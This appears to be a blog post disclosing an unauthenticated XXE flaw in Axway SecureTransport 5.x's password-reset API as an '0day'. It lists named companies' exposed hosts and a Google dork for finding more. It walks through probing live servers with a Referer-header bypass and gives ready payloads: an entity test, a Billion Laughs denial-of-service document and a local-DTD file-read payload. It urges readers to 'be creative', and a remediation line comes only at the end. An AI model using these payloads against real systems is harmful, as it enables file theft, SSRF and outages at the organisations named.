









Axway SecureTransport 5.x XML Injection / XXE
0x01 Introduction⌗
Often times when running scans against large companies, you’ll find the same software being reused across many of them. Over the last couple weeks I’ve ran into Axway SecureTransport logins at least 3 times during separate audits. According to Axway’s website:
“Axway SecureTransport is a multi-protocol MFT gateway for securing, managing, and tracking file flows among people and applications inside your enterprise, and beyond your firewall to your user communities, the cloud and mobile devices. It is designed to handle everything — from high-volume automated high speed secure file transfers between systems, sites, lines of business and external partners, to user-driven communications and mobile, folder- and portal-based file sharing”
That sounds kind of critical doesn’t it? No?

Who else uses this?⌗
With a simple Google dork, we can roughly see how many indexed logins there are.
intitle:"Axway SecureTransport" "Login" (site:mil OR site:gov)

To list a few more:⌗
| Company | Domain | Software |
|---|---|---|
| Axway | mft-sonj.axwaycloud.com | Axway SecureTransport 5 |
| Verisk | secureftp.verisk.com | Axway SecureTransport 5 |
| Aramark | moe.aramark.com | Axway SecureTransport 5 |
| Regeneron | xfer.regeneron.com | Axway SecureTransport 5 |
| CostCo | securefile.costco.com | Axway SecureTransport 5 |
| UBS | secure-xfer.ubs.com | Axway SecureTransport 5 |
| Invesco | imft.invesco.com | Axway SecureTransport 5 |
| Fleetcor | sftp.fleetcor.com | Axway SecureTransport 5 |
0x02 Discovery⌗
As I originally stated, I ran into Axway SecureTransport logins a couple times before finally deciding to poke around at it a little bit. Eventually I got fed up and finally saw it enough times that I decided it was a worthwhile target.
Obviously the first step when looking for vulnerabilities is to map out the attack surface. Seeing as this is enterprise software and most likely requires credentials for most resources… we’ll try and stick with actions we actually have the authority to use.
The first thing I did was read the source of the page I was on (which was the index). In a “login.js” file, I found the following snippet:
var parameters = "<resetPassword><email>" + userEmail + "</email></resetPassword>";
$.ajax({
url : "/api/v1.0/myself/resetPassword",
type : 'POST',
contentType : 'application/xml',
data : parameters,
cache : false,
success : function(data) {
var msg = $.tmpl('<p>${m1}</p><p>${m2}</p>', {
m1: _('Your request is now submitted.'),
m2: message
});
errorPlaceholder.success(msg);
}
});
Obviously this indicates that we can (without authentication) send a password reset. We can also see that in the XHR request, it sets the content type to XML, and then uses the XML data stored in var parameters.
This gives us a nice little template of some valid XML we can use. Now something worth noting is that Administrators can disable the forgot password option in the user interface, which is why on some targets you won’t see the option. However it’s literally ENTIRELY useless, because it only disables it from the UI lol.
Let’s open up Burp and run a couple quick tests here. Once you’ve located a SecureTransport install, you can navigate to https://placeholder/api/v1.0/myself/resetPassword. Typically, this should be the response (assuming you sent a normal GET request).

The error is pretty self-explanatory. The server is expecting to recieve a Referer header, then “allegedly” checks against a whitelist. However I just set mine to localhost and everything worked smoothly.
Let’s send a POST request with the Referer header set and see what we get.

We get the following error:
{
"message" : "javax.xml.bind.UnmarshalException
- with linked exception:
[org.xml.sax.SAXParseException; Premature end of file.]"
}
This error usually indicates that the server tried to parse an empty XML doc, which obviously fails. Now even though we do know what the valid XML looks like… let’s just play around with the parser to get a better feel for it.
Let’s try sending a random tag (<test>) in the following request, and see how it reacts.

This time, this is the error we’re getting:
{
"message" : "javax.xml.bind.UnmarshalException:
unexpected element (uri:"", local:"test").
Expected elements are <{}resetPassword>"
}
Clearly it’s expecting the <resetPassword></resetPassword> element, so let’s go ahead and add that and see what happens.

As you can see by the error in the image, it expects the email tag as well. Let’s give it what it wants. Let’s also try an XML declaration at the top of the document and see what happens.
<?xml version="1.0" encoding="UTF-8"?>
<resetPassword>
<email>lol@lol.lol</email>
</resetPassword>

We get a 204 response…
We know our XML was successfully parsed, because we didn’t recieve an exception. I failed to demonstrate this earlier, however when you send a valid email via the password reset form, you recieve the same 204 response.
But still, that’s pretty terrible isn’t it? No reflection whatsoever… meaning we’re gonna have to go in blind. On the bright side, the SAXParser will typically throw exceptions when external entities or dtd declaration is disabled. We can use these errors… or lack thereof… to confirm this vulnerability.
0x03 Confirmation⌗
We can send whatever XML we want to the server, and the server will process said data. Since we know that it’s vulnerable to XML injection, we should also check whether or not we can use external entities, or any entities at all for that matter.
Let’s try defining some entities and see what happens.
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE resetPassword [
<!ENTITY exists SYSTEM "file:///">
]>
<resetPassword>
<email>&exists;&doesnt;</email>
</resetPassword>

{
"message" : "javax.xml.bind.UnmarshalException
- with linked exception:
[org.xml.sax.SAXParseException; lineNumber: 6;
columnNumber: 25; The entity "doesnt"
was referenced, but not declared.]"
}
99% of the time, we should not be getting this far at all. Typically when doctype declaration is configured properly, an exception should be raised. You would also receive an exception from the SAXParser if you used a restricted URI handler (http, ftp, gopher, file), however we’re not getting that either.
0x04 Exploitation⌗
Because the server doesn’t reflect the input anywhere, our only option is error-based XXE or out-of-band XXE. However, upon initial discovery, it appears as though most Axway SecureTransport installations have some type of firewall blocking all outgoing requests. This makes exploiting traditional XXE difficult.
Judging by this, my only ideas on exploitation would be via blind SSRF or by repurposing an existing DTD on the filesystem to trigger an error with the file contents/result of our payload.
However because I don’t have a license, I can’t effectively audit this software from a whitebox perspective, which makes mapping out internal attack surface difficult. The underlying vulnerability remains… but with restrictions.
The SSRF Payload⌗
XXE is great because it presents a wide variety of issues. Some of the most effective attacks have been carried out by using XXE to send server-side requests and exploit internal services. Anything you can do with generic URL invocation attacks, you can use in conjunction with an XXE.

The DOS Payload(s)⌗
Another type of attack that this software ends up opening the door to (by allowing doctype declarations) is denial of service. In 2002, the Billion Laughs attack was first reported. The Billion Laughs attack essentially overloads the parser with so many entities that when it tries to expand them all, it exhausts the system and essentially crashes.
There are several variations of this attack, be creative :)
Below you’ll find a snippet from Wikipedia.
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
Local DTD Exploitation (DTD repurposing)⌗
Another technique that’s relatively new and effective is DTD repurposing. People have been using this technique to exploit XXE on hardened networks that refuse to make outgoing requests for a while now. By using this technique, we can redefine entities in a DTD that already exists on the local file system. We can then successfully make the application spit out errors that it typically wouldn’t (see parameter entities).
As an example, this is what a DTD repurposing attack payload would look like:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE resetPassword [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
<!ENTITY % expr 'aaa)>
<!ENTITY % file SYSTEM "file:///FILE_TO_READ">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///abcxyz/%file;'>">
%eval;
%error;
<!ELEMENT aa (bb'>
%local_dtd;
]>
<resetPassword></resetPassword>
Again, be creative :)
0x05 Conclusion⌗
If a determined attacker were to get to know the Axway SecureTransport software, the chances of successfully chaining this bug are high. DTD repurposing is a relatively new technique, however in the near future we will be seeing a lot more of this attack vector due to XML parser restrictions/firewalled networks. I didn’t feel comfortable doing further testing as I don’t have a license, meaning I’m limited to testing against live targets. So for now, enjoy the 0day… and once more… be creative.
Notes⌗
- Referer must be set.
- Content type must be xml.
- Successful request returns a HTTP/1.1 204 No Content
- Any type of invalid XML throws an SAXParser exception.
- If external entities were disabled… we should also recieve an exception.
- Same with doctype declaration.
- API endpoints can vary from /api/v1.0, /api/v1.1, /api/v1.2, /api/v1.3, /api/v1.4
Remediation⌗
In order to avoid this vulnerability, it’s suggested to disable both doctype declaration and external general entities. You can find more information on that here.